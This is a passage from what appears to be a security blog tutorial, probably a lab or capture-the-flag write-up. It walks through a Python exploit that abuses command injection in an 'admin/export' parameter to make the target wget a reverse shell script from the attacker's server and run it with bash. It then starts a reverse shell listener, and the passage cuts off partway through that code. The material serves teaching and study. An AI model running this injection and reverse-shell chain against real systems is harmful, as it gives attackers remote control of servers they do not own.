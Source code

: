 #   headers - Headers to send with the command injection attempts
def executeRevShell(urlbase, wsIP, mutex, headers):
    if mutex!=None:
        mutex.acquire()

    #convert Ip to dec format
    ipDec = int(ipaddress.ip_address(wsIP))

    print("[*] Instructing the target to download and execute the reverse shell payload")
    with contextlib.suppress(requests.exceptions.ReadTimeout):
        requests.get(urlbase+"admin/export?table=x%26rm%20rs", headers=headers)
        requests.get(urlbase+"admin/export?table=x%26wget%20"+str(ipDec)+"%2frs", headers=headers)
        requests.get(urlbase+"admin/export?table=x%26bash%20rs", headers=headers, timeout=0.5)
{% endhighlight %}

Once the IP address has been converted to decimal format, the function exploits the command injection vulnerability to execute the commands `rm rs`, `wget [IP]/rs` and `bash rs`, where `[IP]` is the IP address of the web server in decimal format. These commands will delete any old reverse shell script, download our reverse shell script and execute it.

We use the `timeout` parameter in the last request to set its timeout to 500 milliseconds since we don't want to get stuck waiting for the response from the web server since it will be busy executing our reverse shell payload. We use the `contextlib` module on line 15 to suppress read timeouts. Read timeouts are timeouts which occur when a web request has been successfully transmitted to a web server but no response is received for enough time to trigger a timeout. More information about the different types of timeouts can be found in the [official documentation](https://docs.python-requests.org/en/master/_modules/requests/exceptions/). 

The code below contains a Python reverse shell listener from the earlier blog post [Creating a Basic Python Reverse Shell Listener]({% post_url 2021-10-16-Creating-a-Basic-Python-Reverse-Shell-Listener %}). It has been slightly modified to fit our purposes. More specifically, we have added the `mutex` and `commands` parameters. The `mutex` parameter can be used to inform another thread, in this case Thread 3, that the listener is ready to accept a connection. Its implementation is located at line 12 and 13 where the provided lock is simply released.

{% highlight python linenos %}
# listener - Creates a listener which can catch a reverse shell
# Params:
#   ip - IP address to listen on
#   port - Port to listen on
#   lock(opt) - A mutex to release after binding to the specified ip and port
#   commands(opt) - Commands to execute before creating an interactive shell
def listener(ip,port,mutex=None,commands=[]):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((ip, port))
    s.listen(1)
    print("[*] Listening on port " + str(port))
    if mutex != None:
        mutex.release()

    conn, addr = s.accept()